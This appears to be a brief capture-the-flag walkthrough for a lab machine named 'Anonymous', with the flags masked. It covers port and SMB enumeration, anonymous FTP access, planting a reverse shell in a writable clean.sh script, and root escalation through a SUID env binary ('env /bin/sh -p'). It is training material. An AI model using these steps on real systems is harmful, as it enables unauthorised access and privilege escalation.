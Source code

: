 # Anonymous

- Enumerate the machine.  How many ports are open?

	- `scilla port -target <TARGET_IP>`
	- `*`

- What service is running on port 21?

	- `ftp`

- What service is running on ports 139 and 445?

	- `smb`

- There's a share on the user's computer.  What's it called?

	- `smbclient -L <TARGET_IP>`
	- `****`

- user.txt

	- Connect in anonymous mode via ftp and download everything.
	- We can write `clean.sh`, so add a reverse shell.
	- Fire up a shell and cat the flag.
	- `**********************`

- root.txt

	- `sudo -l`
	- `find / -user root -perm -u=s 2>/dev/null`
	- `/usr/bin/env`
	- `env /bin/sh -p`
	- `cat /root/root.txt`
	- `*******************************`
